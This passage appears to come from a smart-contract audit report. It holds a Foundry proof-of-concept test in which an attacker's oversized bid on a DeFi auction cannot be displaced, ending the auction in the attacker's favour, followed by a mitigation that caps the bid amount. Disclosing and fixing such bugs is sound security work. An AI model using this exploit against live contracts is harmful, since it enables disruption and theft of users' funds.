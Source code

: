 ```solidity
    auction.bid(10000000000000000000 ether, 100000000000000000000000);
    (,uint256 before_buyReserve,uint256 before_sellCoupon,,,)=auction.bids(1);
    console.logUint(before_buyReserve);
    console.logUint(before_sellCoupon);
    vm.stopPrank();

    // bidder2 simulate the recoverer,acution will fail even he want to decrease attack's buyReserveAmount share.
    vm.startPrank(bidder2);
    usdc.mint(bidder2, 100000000000000000000000 ether);
    usdc.approve(address(auction), 100000000000000000000000 ether);
    
    auction.bid(1 ether, 10000000000000000000000);

    vm.stopPrank();

    assertEq(auction.highestBidIndex(), 2);
    assertEq(auction.bidCount(), 2);
    // when auction can be end,attack can use high gas price attack transaction to be the first user to end the auction
    vm.warp(block.timestamp + 15 days);
    vm.prank(bidder1);
    auction.endAuction();
    console.logUint(uint256(auction.state()));

    (,uint256 buyReserve,uint256 sellCoupon,,,)=auction.bids(1);
    console.logUint(buyReserve);
    console.logUint(sellCoupon);
    uint256 poolReserve=Token(weth).balanceOf(pool);
    console.logUint(poolReserve);
    // auction fail
    assertEq(uint256(auction.state()), uint256(Auction.State.SUCCEEDED));
  }
}
```
### Mitigation

1.In the bid() function, restrict the user's input for buyReserveAmount to ensure it does not exceed sellReserveToken.balanceOf(pool) * poolSaleLimit / 100.






